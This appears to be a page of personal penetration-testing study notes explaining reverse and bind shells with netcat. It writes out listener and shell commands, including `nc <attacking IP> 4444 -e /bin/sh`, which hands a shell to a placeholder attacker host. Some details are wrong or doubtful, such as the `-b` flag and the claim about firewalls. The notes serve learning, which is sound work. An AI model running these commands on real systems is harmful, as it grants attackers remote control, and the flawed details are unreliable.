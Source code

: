
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](cybersecurity/tools/exploitation/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to send execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag.
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444
# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)